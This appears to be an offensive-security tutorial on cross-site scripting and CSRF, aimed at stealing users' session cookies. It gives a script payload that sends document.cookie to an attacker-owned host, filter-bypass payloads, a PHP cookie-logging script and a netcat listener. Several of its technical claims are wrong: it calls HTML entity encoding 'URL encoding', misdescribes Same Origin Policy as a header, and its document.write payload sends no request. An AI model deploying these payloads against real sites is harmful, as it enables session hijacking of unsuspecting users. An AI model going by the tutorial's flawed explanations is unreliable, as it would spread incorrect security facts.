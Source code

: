 # Cross-Site Scripting (XSS)

### What is XSS?
XSS is a client side vulnerability that targets users by injecting client-side scripts into the webpage/application to perform malicious attacks. XSS occurs when user input is output onto a page without correctly having it's encoding escaped. This causes the browser to execute these scripts when the page loads as it is unaware that it shouldn't be trusted. It is commonly used to steal users session cookies `document.cookie` or make requests from the users client. 

### What does XSS Look Like?
XSS is commonly just malicious javascipt contained within a HTML script tag and targetting the users cookie such as `<script>document.write("https://www.yourserver.com/?cookie="+document.cookie)</script>`. This payload makes a request to a server that the attacker owns, appending the users session cookie in the URL request. It is important to have a server or endpoint that you control to collect the cookies. This type of payload is not always possible and sometimes filtering bypasses will be required.

### Types of XSS

##### Reflected XSS
Reflected XSS occurs when an input field or URL parameter is reflected back onto the page. A common example of this is a searched phrase being display on the search results page. In this case an attacker may send a link to a victim where the search query is an xss payload.

`www.website.com/?search=<script>{xss_payload}</script>`

##### Stored XSS
Stored XSS is when the XSS payload is stored server-side before being reflected onto the client. In this case stored XSS is persistant and affects every user visiting webpages where the XSS payload is displayed. A common example of this is an attacker inserting an XSS payload into a message/comments field and posting it. This payload is then stored and visible to multiple users who view the message.

### Where to find XSS?
XSS can potentially occur wherever there is user controlled input. 
- Input Fields (Including Hidden Fields)
- URL Paramaters or Just in the URL in general

### XSS Filtering
Sometimes simple XSS payload wont work as applications use filtering techniques in an attempt to prevent XSS. When this occurs it is important to be creative as in most cases XSS can be work. There are a couple of techniques to consider and try.

- Try URL encoding the symbols so that `<script>` becomes `&lt;script&gt;` 
- You can also use other HTMl tags other than script, such as `<img src="javascript:{payload};">`
- On error is also another place you can try as it isn't always considered and javascript can just run without being specified `<img scr=nothing onerror="{javascript_xss_payload">`

##### Other Resources
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [XSS Shortening Cheatsheet](https://labs.neohapsis.com/2012/04/19/xss-shortening-cheatsheet) 

### CSRF
CSRF stands for Cross-Site-Request-Forgery and is a type of attack that targets authenticated users where the attacker gets the user to make a malicious request on their behalf. Since the user is authenticated and is the one making the request it is seen as valid by the server. This can be done by getting the user to visit a malicious page that makes the request using the cookie for the targeted site. However this is not always possible as sometimes web applcations use Same Origin Policy and CSRF tokens to prevent this attack. However if you mange to find an XSS within the web application itself then you can bypass both of these prevention techniques.

##### Same Origin Policy
Same Origin Policy is a header field that specifies what content is allowed to render on the page. It is important as it mitigates the impact of XSS as scripts will now no longer run or make calls to URL's not belonging to the same domain the web application is hosted on. This makes it impossible for users to steal credentials through XSS as well ruling out some filtering techniques. It is important to realise that XSS is still possible if you can inject a script into the web application and perform a CSRF attack.

### Attacker Server (Collecting Cookies)
In order to steal users session cookies you will require a server or endpoint that you control to send the cookies to. This can be done multiple ways, hosting a simple web server either in python or nodejs that just grabs the URL request and appends it to a file. Below are examples of a php script that can be used, it is good as the server doesn't have to actually run and a netcat command that can be used to listen to requests. [XSS Hunter](https://xsshunter.com/) is also a good alternative that can be used if setting up a server is difficult. It provides a custom URL that you can used to view the requests made to the url to collect info.

##### PHP Server
```
<?php
file_put_contents("user_session_cookies.txt", $_GET["cookie"]."\n", FILE_APPEND);
?>
```
##### Netcat
`nc -l 80`

### Other Tools

- [BeEF](http://beefproject.com/) - An automated XSS Exploitation Framework